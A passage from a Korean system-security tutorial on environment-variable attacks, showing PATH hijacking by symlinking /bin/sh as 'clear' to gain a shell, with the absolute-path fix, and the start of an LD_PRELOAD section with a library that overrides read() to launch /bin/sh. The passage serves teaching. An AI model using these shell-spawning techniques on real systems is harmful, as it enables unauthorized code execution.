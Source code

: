 그럼 아래와 같은 명령어로 PATH를 수정하고 예제 코드를 실행시켜보자.

```
$ export PATH=""
$ ./environ1
Screen Cleaner
sh: 1: clear: not found
```

PATH 환경 변수를 비워주고 실행했을 때, clear 파일을 찾지 못하고 에러를 출력시키게 된다.

만약 /bin/sh 파일을 심볼릭 링크를 사용하여 clear 이름으로 링킹 하면 어떻게 될지 생각해보아야 한다.

```
$ ln -s /bin/sh ./clear
$ export PATH=""
$ ./environ1
Screen Cleaner
$ id
uid=1001(theori) gid=1001(theori) groups=1001(theori)
```

/bin/sh 파일을 현재 위치한 경로에 clear 이름으로 심볼릭 링크를 걸고 PATH 환경 변수를 비워준 후에 예제 코드를 실행한 모습이다.

예제 파일에서 clear 명령어를 실행했는데 /bin/sh 파일이 실행되어 셸을 획득한 것을 확인할 수 있다. 이렇게 잘못된 경로 사용으로 인해 임의 코드 실행까지 이어질 수 있다는 것을 확인해보았다.

특정 명령어를 사용해야 할 경우에는 절대 경로를 사용하여 익스플로잇이 불가능하도록 만드는 것이 좋은 코드의 예이다.

```
system("/usr/bin/clear");
```

### 환경변수 공격-LD_PRELOAD

```
// gcc -o libc.so libc.c -fPIC -shared
#include <stdlib.h>
void read() {
	execve("/bin/sh", 0, 0);
}
```


```
// gcc -o environ2 environ2.c 
#include <unistd.h>
#include <stdio.h>
int main()
{
	char buf[16];
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	write(1, "Data:", 5);
	read(0, buf, sizeof(buf)-1);
	
	write(1, "GOOD", 4);
        return 0;
}
```
